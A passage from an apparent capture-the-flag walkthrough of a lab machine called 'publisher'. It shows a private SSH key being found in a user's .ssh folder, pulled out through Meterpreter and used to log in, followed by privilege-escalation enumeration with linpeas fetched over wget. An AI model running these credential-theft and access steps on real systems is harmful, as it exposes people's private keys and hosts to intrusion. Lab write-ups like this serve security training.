 ```bash
find / -writable -type d 2>/dev/null
```

![publisher11](https://github.com/user-attachments/assets/ec205ad9-d012-495e-85a7-5b2aa59ecc5f)

This returned a lot of results, but it was still too broad.

**Exploring .ssh Directory:**  
I found a `.ssh` directory in `/home/think`. This piqued my interest because SSH keys can sometimes provide direct access to the user:

```bash
ls -la /home/think/.ssh
```

![publisher12](https://github.com/user-attachments/assets/8431416b-3298-4252-88aa-04f910d26879)

Inside, I found the `id_rsa` private key.

**Downloading the SSH Key:**  
I downloaded the `id_rsa` key to my local machine using Meterpreter's download command:

```bash
download /home/think/.ssh/id_rsa
```

![publisher13](https://github.com/user-attachments/assets/dfc5dc6c-96b5-42f7-ba5a-49a85be11040)

**Using SSH to Login as Think:**  
After downloading the private key, I changed its permissions and used SSH to log in as `think`:

```bash
chmod 600 id_rsa
ssh think@<ip> -i id_rsa
```

![publisher14](https://github.com/user-attachments/assets/83ab9430-dcaf-4359-9ec2-5e9e0043e342)

**Why SSH and id_rsa:**  
SSH keys are a secure way of logging into a machine, and I knew that `think` had an SSH key in the `.ssh` directory. By downloading the key and connecting via SSH, I bypassed the need for password-based login.

### Escalating Privileges Further

**Exploring Writable Directories for Escalation:**  
I checked writable directories for privilege escalation opportunities and found that `/run/user/1000` was writable by `think`. 

Lets get linpeas on my main machine:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Then we can start a python server on the main machine and connect to it and download linpeas.sh on think@publisher:
